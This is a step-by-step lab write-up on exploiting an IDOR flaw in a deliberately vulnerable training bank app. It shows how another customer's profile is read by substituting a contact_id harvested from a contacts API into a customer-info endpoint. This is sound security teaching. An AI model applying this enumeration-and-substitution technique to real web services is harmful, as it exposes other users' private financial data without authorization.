





# Task 0. Uncovering User IDs

## **Task Description**


## Navigating the IDOR Waters through A Banking Adventure 🏦!


**Warmning up..**

Welcome to the first step in your journey through the realm of Insecure Direct Object References (**IDOR**), set against the backdrop of a carefully crafted **banking application.**\
Your mission begins with the foundational element of many IDOR vulnerabilities: discovering other **users' IDs**.

Understanding how user IDs are structured, assigned, and exposed can provide you with the initial foothold required to explore deeper vulnerabilities within the application.\
Let's dive in.

- Target Application: [CyberBank](https://intranet-dlh.hbtn.io/rltoken/1VVyFaPHhuT-TXMLbTuhhg)
- Initial Endpoint: `http://web0x06.hbtn/dashboard`

---

Useful instructions:
1. Log into CyberBank using provided credentials and start exploring features, paying close attention to any mention or use of user IDs.
2. Observe the URL structure, page content, and any API requests for patterns in how user IDs are displayed or transmitted.
3. Investigate other areas of the application where user-specific actions occur (e.g., transaction history, settings) for additional exposure of user IDs.
4. Experiment with altering user ID values in URLs or requests to access information pertaining to other users.
5. Within the info of a target user, identify and note down a unique flag as proof of successfully uncovering user IDs.

**Repo:**

- GitHub repository: `dlh-cyber_security`
- Directory: `web_application_security/0x06_idor`
- File: `0-flag.txt`


## **Solution**


- Start sandbox `cyber_websec_0x06`.
- Start openvpn.
- Put IP address of the sandbox in `/etc/hosts` file.
```bash
echo "10.42.63.4 web0x06.hbtn" | sudo tee -a /etc/hosts
```


### Step 1: Access the CyberBank dashboard

Action: Open the following URL in your lab browser:

```
http://web0x06.hbtn/dashboard
```

Log in using the credentials provided by the lab (yosri/yosri123).

Why are we doing this?

Before testing for IDOR, we need to understand how CyberBank identifies the authenticated user.

We're looking for clues such as:

- User IDs displayed on the dashboard.
- URLs containing numeric IDs, such as `/users/12`.
- Links to profile, account settings, or transaction history.



### Step 2: Inspect CyberBank's network requests

The dashboard is accessible at `http://web0x06.hbtn/dashboard`.

We can see the logged-in account holder, Yosri Musk, along with transaction history and transfer recipients. However, no numerical user ID is visible directly on the page.

The next step is to inspect how the application retrieves this information.

Action: Open Firefox Developer Tools and inspect network traffic.

1. Press `F12`.
2. Select the Network tab.
3. Select the Fetch/XHR filter.
4. Refresh the dashboard using `Ctrl + R`.

Why?

Modern banking dashboards often retrieve account information through API requests, such as:

```
GET /api/users/123
GET /api/accounts/123
GET /api/transactions?user_id=123
```

These are illustrative examples, not confirmed CyberBank endpoints.

We're looking for requests containing user IDs or returning JSON with fields such as `id`, `user_id`, or `account_id`.

Understanding where these identifiers appear will help us identify a potential IDOR vulnerability.




### Step 3: Identify your own user ID

We've uncovered several API endpoints:

- `GET /api/customer/transactions`
- `GET /api/customer/info/me`
- `POST /api/accounts/info`
- `POST /api/cards/info`
- `GET /api/customer/contacts`

The most interesting one to start with is:

```
GET /api/customer/info/me
```

The `/me` path suggests this endpoint retrieves information about the currently authenticated user.

Action:

1. In the Network tab, click the request named `me`.
2. On the right, select the Response tab.
3. Check the JSON response.


```json
{'message': {'accounts_id': ['97ccfda8da2e4b2fa4133121fad8a9f2',
   'a1e9e267bb9649148d3edbc1233c0c47'],
  'created_at': 1794147533,
  'expenses': 23930.4,
  'firstname': 'Yosri',
  'id': '2cc5e440302342fbae9d2e1d4a226d61',
  'income': 20939.100000000002,
  'lastname': 'Musk',
  'total_balance': 2991.3,
  'updated_at': 1794147533,
  'username': 'yosri'},
 'status': 'success'}
```

### Step 4: Investigate the contacts endpoint

We've identified `yosri` user's ID:

```
2cc5e440302342fbae9d2e1d4a226d61
```

This is a 32-character hexadecimal identifier, likely a UUID represented without hyphens.

The response also exposes two account IDs, but our objective is to uncover other users' IDs, not account IDs.

The dashboard has another promising endpoint:

```
GET /api/customer/contacts
```

This endpoint may expose information about transfer recipients, potentially including their user IDs.

Action:

1. Return to Firefox Developer Tools → Network.
2. Click the request named `contacts`.
3. Select the Response tab.
4. Check the complete JSON response.

```json
{'message': [{'accounts': [{'account_id': 'b2ce18af65704387924b9d286c5af593'},
    {'account_id': 'c8b16ab984284bfaaa4c5c6930a64972'}],
   'contact_id': 'd8214d82375d48c0b302cc2b30068244',
   'created_at': 1794147537,
   'customer_id': '2cc5e440302342fbae9d2e1d4a226d61',
   'firstname': 'Linda',
   'id': 'c457f1de3a444c81b344cb18810cc2ad',
   'lastname': 'Robinson',
   'updated_at': 1794147537},
  {'accounts': [{'account_id': 'e0b863381c634d4698192b15a095777a'},
    {'account_id': '5ef0100f10074e33bfb609ad455098a0'}],
   'contact_id': '31a6d09366e64c7383ef9c6d32ec5c8d',
   'created_at': 1794147538,
   'customer_id': '2cc5e440302342fbae9d2e1d4a226d61',
   'firstname': 'Robert',
   'id': 'ad0d67febe8a492a825075de6a0161ed',
   'lastname': 'Martinez',
   'updated_at': 1794147538},
  {'accounts': [{'account_id': 'a218d32a782c4caf920230da8d718897'},
    {'account_id': 'a2cb451260cf467db478cd0f56442d2e'}],
   'contact_id': 'd50ed47e3545406ea7f62f0743da02b1',
   'created_at': 1794147539,
   'customer_id': '2cc5e440302342fbae9d2e1d4a226d61',
   'firstname': 'Patricia',
   'id': '35b0c7835bbf45b5b8132372a904858b',
   'lastname': 'Garcia',
   'updated_at': 1794147539},
  {'accounts': [{'account_id': '99cd44fc46284c48848dc595485338e0'},
    {'account_id': '4c96bfb5294a4a909e87ae3e1e8b6464'}],
   'contact_id': 'fa0b874438814d2aafe718a836195483',
   'created_at': 1794147540,
   'customer_id': '2cc5e440302342fbae9d2e1d4a226d61',
   'firstname': 'James',
   'id': 'f24d145405a5407aaff26c1814f941ea',
   'lastname': 'Thompson',
   'updated_at': 1794147540},
  {'accounts': [{'account_id': '457a349803054edf926ea5eb07b495d2'},
    {'account_id': '4c919b43f4c54956ba813aa2a9e8764a'}],
   'contact_id': 'bce5d42f749b4054908a93e9319e18db',
   'created_at': 1794147541,
   'customer_id': '2cc5e440302342fbae9d2e1d4a226d61',
   'firstname': 'Elizabeth',
   'id': '701189501cc6456091fafd20783b5035',
   'lastname': 'Martin',
   'updated_at': 1794147541},
  {'accounts': [{'account_id': '3427e9ec223547a59cd22c278886059b'},
    {'account_id': 'ff8e8705f4644d85ad19a55f352b28bc'}],
   'contact_id': '4f24a2579a5a47e9a611665e0af941ad',
   'created_at': 1794147542,
   'customer_id': '2cc5e440302342fbae9d2e1d4a226d61',
   'firstname': 'Brian',
   'id': 'e1e0f53419fe4f6bb7a8b9fdd859e2d4',
   'lastname': 'Harris',
   'updated_at': 1794147542},
  {'accounts': [{'account_id': 'd0fbc5ea2a064d02825df10ea3d046cc'},
    {'account_id': '7fdc99759fdf47169a36d3edfcdfe1e5'}],
   'contact_id': 'e522cbf833f048659af0e7e75207f241',
   'created_at': 1794147543,
   'customer_id': '2cc5e440302342fbae9d2e1d4a226d61',
   'firstname': 'Megan',
   'id': '4820d77652894000ac27d4a697aef33b',
   'lastname': 'White',
   'updated_at': 1794147543},
  {'accounts': [{'account_id': '65a53816e0504c69b6275338aa5a1575'},
    {'account_id': '23f220dff0cb43bea3bcf1de666323fb'}],
   'contact_id': 'efe253564d6d489fb552f0e4fc0e5600',
   'created_at': 1794147544,
   'customer_id': '2cc5e440302342fbae9d2e1d4a226d61',
   'firstname': 'Mark',
   'id': 'df32feed212043c8a5729827e3653881',
   'lastname': 'Jackson',
   'updated_at': 1794147544},
  {'accounts': [{'account_id': '463c9ed7c8064e5285b95b77a386cce7'},
    {'account_id': '761ad974f20b48758962e28baeaf0315'}],
   'contact_id': 'e7503b1423ac4e428594805c1a846f95',
   'created_at': 1794147545,
   'customer_id': '2cc5e440302342fbae9d2e1d4a226d61',
   'firstname': 'Ashley',
   'id': 'f1b1d490a7144f77b66e7a8924bbc5eb',
   'lastname': 'Thomas',
   'updated_at': 1794147545},
  {'accounts': [{'account_id': 'e28710604e6f4809aaf1c9a5b0d8492a'},
    {'account_id': 'f1ed65a1f3ac4480b49b70c561a8f5d4'}],
   'contact_id': 'c4fa0618f0874438a8f6ca34b1b22492',
   'created_at': 1794147546,
   'customer_id': '2cc5e440302342fbae9d2e1d4a226d61',
   'firstname': 'David',
   'id': '4859aff1242d476d818600393eddc211',
   'lastname': 'Anderson',
   'updated_at': 1794147546}],
 'status': 'success'}
```


### Step 5: Test IDOR using another user's ID

We've discovered 10 other users' IDs through `/api/customer/contacts`.

For example:

| User            | ID                                 |
| --------------- | ---------------------------------- |
| Linda Robinson  | `c457f1de3a444c81b344cb18810cc2ad` |
| Robert Martinez | `ad0d67febe8a492a825075de6a0161ed` |
| Patricia Garcia | `35b0c7835bbf45b5b8132372a904858b` |

An important distinction:

- `customer_id`: The authenticated user, Yosri Musk.
- `id`: Appears to identify the contact's user record.
- `contact_id`: Likely identifies the contact relationship.
- `account_id`: Identifies a bank account.

We now have enough information to test for an IDOR.

Action:

While still logged into CyberBank, open this URL in a new browser tab:

```
http://web0x06.hbtn/api/customer/info/c457f1de3a444c81b344cb18810cc2ad
```

Why?

We already know this endpoint works:

```
GET /api/customer/info/me
```

We're testing whether replacing `me` with Linda Robinson's ID allows us to retrieve her customer information.

If the server returns Linda's private information without verifying that you're authorized to access it, we've potentially found an IDOR vulnerability, specifically broken object-level authorization (BOLA).




### Step 7: Verify whether the endpoint accepts customer IDs

The screenshot reveals an important detail:

```json
{
  "message": "Invalid \"customer_id\"",
  "status": "failed"
}
```

The server returned HTTP 200, but the application rejected the supplied identifier.

Alternate action: Test the same endpoint using Yosri Musk's own ID, which we know is valid.

Open this URL in Firefox:

```
http://web0x06.hbtn/api/customer/info/2cc5e440302342fbae9d2e1d4a226d61
```

Why?

This is a control test to distinguish two possibilities:

- Success: The endpoint accepts customer IDs, but Linda's identifier may be invalid for this endpoint or subject to access restrictions.
- Same error: The endpoint may expect a different identifier format or parameter, or the route may not support arbitrary customer IDs.

This avoids guessing at the vulnerability before establishing how the endpoint behaves.





### Step 8: Test the actual customer ID of another user

The latest result confirms that:

```
GET /api/customer/info/2cc5e440302342fbae9d2e1d4a226d61
```

successfully retrieves Yosri Musk's profile.

We've also discovered a crucial distinction in the contacts response:

| Field         | Likely meaning                              |
| ------------- | ------------------------------------------- |
| `id`          | Unique ID of the contact-list record        |
| `customer_id` | Owner of the contact list (Yosri)           |
| `contact_id`  | ID of the customer being referenced (Linda) |

> Our earlier test probably used the wrong identifier!

We tested Linda's `id`, but the API expects a `customer_id`. Therefore, we should try her `contact_id`.

### Action

Open this URL in the authenticated Firefox session:

```
http://web0x06.hbtn/api/customer/info/d8214d82375d48c0b302cc2b30068244
```

Why?

We're testing whether CyberBank lets Yosri retrieve Linda's customer profile simply by supplying her identifier.

There are three interesting outcomes:

- `status: success` with Linda's profile: The endpoint exposes another customer's information.
- `status: failed` with an authorization error: The application may enforce access controls.
- `Invalid "customer_id"`: Our interpretation of the identifiers needs further investigation.





### Step 9: Save the flag

IDOR confirmed, flag found!

The request successfully returned Linda Robinson's private customer information, including her account IDs, balances, and the lab flag.

We found:

```
1871c80b1bc83b3b6f45582d53e5a840
```

CyberBank accepted Linda's `contact_id` as a customer identifier and returned her profile while we were authenticated as Yosri Musk. The endpoint did not enforce the necessary object-level authorization.


```bash
echo '1871c80b1bc83b3b6f45582d53e5a840' > 0-flag.txt
git add .
git commit -m "0-flag.txt"
git push
```

